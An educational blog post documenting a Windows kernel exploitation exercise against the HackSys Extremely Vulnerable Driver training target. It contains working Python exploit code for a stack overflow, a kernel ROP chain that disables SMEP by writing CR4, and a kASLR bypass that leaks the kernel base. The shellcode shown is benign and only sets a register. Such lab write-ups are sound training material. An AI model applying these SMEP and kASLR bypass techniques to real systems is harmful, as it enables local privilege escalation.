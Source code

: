 :slug: hevd-smep-bypass/
:date: 2020-09-18
:category: attacks
:subtitle: Bypassing OS protections
:tags: osee, training, exploit, windows, kernel, hevd
:image: cover.png
:alt: Photo by Basil James on Unsplash
:description: In this article we will defeat some protections using several techniques for exploting HackSys Extremely Vulnerable Driver
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/iC4BsZQaREg

= HEVD: kASRL + SMEP Bypass

During the last posts, we've been dealing with exploitation in Windows
Kernel space. We are using
link:https://github.com/hacksysteam/HackSysExtremeVulnerableDriver[HackSys Extremely Vulnerable Driver]
or `HEVD` as the target which is composed of several vulnerabilities to let
practitioners sharpen the Windows Kernel exploitation skills.

In the last link:../hevd-dos/[post], we successfully created a DoS exploit
leveraging a stack overflow vulnerability in `HEVD`. The DoS ocurred because
we placed an arbitrary value on `EIP` (`41414141`) and when the OS tried
to access that memory address, it was not accessible.

In this article, we will use that ability to overwrite `EIP` to execute code
in privileged mode.

During the exploitation process, we will come across with Supervisor Mode
Execution Prevention or `SMEP` which will thwart our exploit. But fear not:
we will be able to bypass it.

== Local vs Remote exploitation

When we were exploiting link:../tags/vulnserver/[Vulnserver], we were
doing remote exploitation to a user-space application. That kind of
environment has certain specific restrictions, the most notorious are
limited buffer space to insert our payload, character restrictions and
`ASLR` (Address Space Layout Randomization).

When we are exploiting the Windows Kernel, it is assumed that we already
have unprivileged local access to the target machine. In that environment,
those restrictions are not longer a major issue. For example, the buffer
space problem and character restrictions are easily circumvented by
allocating dynamic memory with `VirtualAlloc()`, moving the raw payload
to that buffer and overwriting `EIP` with the returned pointer.

`ASLR` and `kASLR` (Kernel `ASLR`) is not an issue either, because it works
by randomizing the base memory of the modules at every restart, but if we have
local access, there are functions in the Windows API that will reveal the
current base address.

However, other protections come to scene when trying to exploit at kernel
level, like `DEP`, `SMEP`, `CFG`, etc. We will come across with some of them
surely later. Stay tuned.

== Stack Overflow exploitation

We left off our link:../hevd-dos/[previous article] performing a DoS to
the target machine, on where we used the following exploit:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-smep-bypass/
"""

from infi.wioctl import DeviceIoControl

DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'

IOCTL_HEVD_STACK_OVERFLOW = 0x222003
SIZE = 3000

PAYLOAD = (
    b'A' * SIZE
)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

And we were able to overwrite EIP with the value `41414141`. If we are going
to perform something more meaningful, we must start by locating the exact
offset on which `EIP` is overwritten. Just like on any other user-space
exploitation process, we can create a cyclic pattern to find that offset.
We can use `mona` to do that:

image::mona1.gif[Mona Cyclic Pattern]

Then, update our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-smep-bypass/
"""

from infi.wioctl import DeviceIoControl

DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'

IOCTL_HEVD_STACK_OVERFLOW = 0x222003

PAYLOAD = (
    b'<insert pattern here>'
)

SIZE = len(PAYLOAD)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

And check it:

image::mona2.gif[Mona Cyclic Pattern]

Good, `mona` discovered that EIP gets overwritten starting at byte `2080`.

Now, for illustration purposes, we'll create a simple shellcode to
make `EAX = 0xdeadbeef`. Then, we must copy it in a dynamic generated
location created by `VirtualAlloc()`. The return value of `VirtualAlloc()` is
a pointer that will be placed starting at byte 2081 of our buffer to divert
the execution flow to our shellcode.

Let's update our exploit with that:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-smep-bypass/
"""

import struct
from ctypes import windll, c_int
from infi.wioctl import DeviceIoControl

KERNEL32 = windll.kernel32
DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'
IOCTL_HEVD_STACK_OVERFLOW = 0x222003

SHELLCODE = (
    b'\xb8\xef\xbe\xad\xde' +     # mov eax,0xdeadbeef
    b'\xcc'                       # INT3 -> software breakpoint
)

RET_PTR = KERNEL32.VirtualAlloc(
    c_int(0),                    # lpAddress
    c_int(len(SHELLCODE)),       # dwSize
    c_int(0x3000),               # flAllocationType = MEM_COMMIT | MEM_RESERVE
    c_int(0x40)                  # flProtect = PAGE_EXECUTE_READWRITE
)

KERNEL32.RtlMoveMemory(
    c_int(RET_PTR),              # Destination
    SHELLCODE,                   # Source
    c_int(len(SHELLCODE))        # Length
)

PAYLOAD = (
    b'A' * 2080 +
    struct.pack('<L', RET_PTR)
)

SIZE = len(PAYLOAD)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

If everything comes as expected, `EAX` will have the value `0xdeadbeef` and
execution will pause at the inserted breakpoint `\xcc`. Let's check it:

image::smep1.gif[SMEP in action]

Ouch!

Our exploit was thwarted and the error `ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY`
was triggered when the first instruction of our shellcode was trying to
execute. That means that `SMEP` did protect the kernel.

== SMEP: Supervisor Mode Execution Prevention

There's a concept called
link:https://en.wikipedia.org/wiki/Protection_ring[Protection rings] which
is used by operating systems to delimit capabilities and provide
fault tolerance, by defining levels of privileges. Windows OS versions
uses only 2 Current Privilege Levels (`CPL`): 0 and 3. `CPL` levels are also
referred as `rings`. `CPL0` or `ring-0` is where the kernel is executed
and `CPL3` or `ring-3` is where user mode instructions are performed.

`SMEP` is a protection introduced at CPU-level which prevents the kernel
to execute code belonging to `ring-3`.

The `ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY` exception was triggered
because `HEVD` is executing at `ring-0` and our shellcode was allocated at
`ring-3`.

Technically, `SMEP` is nothing but a bit in a CPU control register,
specifically the 20th bit of the `CR4` control register:

image::cr4.png[CR4 register]

To bypass `SMEP`, we must flip that bit (make it `0`). As can be seen,
the current value of `CR4` with `SMEP` enabled is `001406e9`. Let's check
what would be the value after flipping the 20th bit:

image::cr42.png[CR4 register]

It would be `000406e9`. We need to place that value on `CR4` to turn off
`SMEP`.

But, how can we do that if we are not allowed to execute instructions at
`ring-3`? link:../bypassing-dep/[ROP] comes to the rescue! We need to execute
a `ROP` chain with instructions that are already in kernel mode. At `ring-0`
`ROP` is often referred as `kROP`. We then need to execute a `kROP` chain
and change the value of `CR4`. With that, we should be able to make
`EAX = 0xdeadbeef`.

In `nt!KeFlushCurrentTb`, we find a gadget that sets `CR4` from whatever
value `EAX` may have: `mov cr4, eax # ret`

image::cr4-rop.png[CR4 ROP]

Now, we need to calculate the offset of that `ROP` gadget from the start
of the `nt` module:

image::offset1.png[CR4 ROP Offset]

The offset is `0011f8de`. We'll use that later.

Now we need to find a `pop eax # ret` gadget. We can find one at
`nt!_MapCMDevicePropertyToNtProperty+0x39`:

image::popeax-rop.png[POP EAX ROP]

And the offset from the start of the `nt` module is `0002bbef`:

image::offset2.png[POP EAX Offset]

We must remember to pad our `ROP` chain with 8 bytes because the overflowed
function epilog uses `ret 8` which will return to the value pointed by `ESP`
and then will pop 8 bytes from the stack:

image::rop-padding.png[ROP Padding]

With that, we can now disable `SMEP`!

== Defeating kASRL

We've got all the required information to create the `ROP` chain to disable
`SMEP`. However, we need to deal with kernel `ASRL`. As I mentioned before,
there are several functions that can be executed in user mode (`ring-3`) that
can give information of addresses at `ring-0`. The most used are
`NtQuerySystemInformation()` and `EnumDeviceDrivers()`. The later is the
simpler. With the following code, you can get the kernel base address:

[source,python]
----
import sys
from ctypes import windll, c_ulong, byref, sizeof

PSAPI = windll.psapi

def get_kernel_base():
    """Obtain kernel base address."""
    buff_size = 0x4

    base = (c_ulong * buff_size)(0)

    if not PSAPI.EnumDeviceDrivers(base, sizeof(base), byref(c_ulong())):
        print('Failed to get kernel base address.')
        sys.exit(1)
    return base[0]

BASE_ADDRESS = get_kernel_base()
print(f'Obtained kernel base address: {hex(BASE_ADDRESS)}')
----

And check it:

image::leak1.png[Kernel Base Address]

As you can see, it matches perfectly to the address reported by `WinDBG`:

image::leak2.png[Kernel Base Address]

With that, we can update our exploit, adding the `ROP` chain to disable `SMEP`,
using the offsets of the gadgets and the value returned from that function
to obtain absolute addresses, defeating `kASLR`!

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-smep-bypass/
"""

import struct
import sys
from ctypes import windll, c_int, c_ulong, byref, sizeof
from infi.wioctl import DeviceIoControl

KERNEL32 = windll.kernel32
PSAPI = windll.psapi
DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'
IOCTL_HEVD_STACK_OVERFLOW = 0x222003


def get_kernel_base():
    """Obtain kernel base address."""
    buff_size = 0x4

    base = (c_ulong * buff_size)(0)

    if not PSAPI.EnumDeviceDrivers(base, sizeof(base), byref(c_ulong())):
        print('Failed to get kernel base address.')
        sys.exit(1)
    return base[0]


BASE_ADDRESS = get_kernel_base()
print(f'Obtained kernel base address: {hex(BASE_ADDRESS)}')

SHELLCODE = (
    b'\xb8\xef\xbe\xad\xde' +     # mov eax,0xdeadbeef
    b'\xcc'                       # INT3 -> software breakpoint
)

RET_PTR = KERNEL32.VirtualAlloc(
    c_int(0),                    # lpAddress
    c_int(len(SHELLCODE)),       # dwSize
    c_int(0x3000),               # flAllocationType = MEM_COMMIT | MEM_RESERVE
    c_int(0x40)                  # flProtect = PAGE_EXECUTE_READWRITE
)

KERNEL32.RtlMoveMemory(
    c_int(RET_PTR),              # Destination
    SHELLCODE,                   # Source
    c_int(len(SHELLCODE))        # Length
)

ROP_CHAIN = (
    struct.pack('<L', BASE_ADDRESS + 0x0002bbef) +     #  pop eax # ret
    struct.pack('<L', 0x42424242) +                    #  Padding for ret 8
    struct.pack('<L', 0x42424242) +                    #
    struct.pack('<L', 0x000406e9) +                    #  Value to disable SMEP
    struct.pack('<L', BASE_ADDRESS + 0x0011f8de) +     #  mov cr4, eax # ret
    struct.pack('<L', RET_PTR)                         #  Pointer to shellcode
)

PAYLOAD = (
    b'A' * 2080 +
    ROP_CHAIN
)

SIZE = len(PAYLOAD)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

Looks good. Now check it:

image::success1.gif[Success]

And this is the content of the `CR4` register:

image::smep-disabled.png[Success]

As you can see, we were able to disable `SMEP` and made `EAX = 0xdeadbeef`!

== Conclusions

In this post we were able to execute a shellcode which made `EAX = 0xdeadbeef`.
We also bypassed `SMEP` protection using a `kROP` chain and defeated `kASRL`
by leaking the kernel base address from `ring-3`.
However, we have still have to get a privileged shell on this system, which
will be covered in the next article.
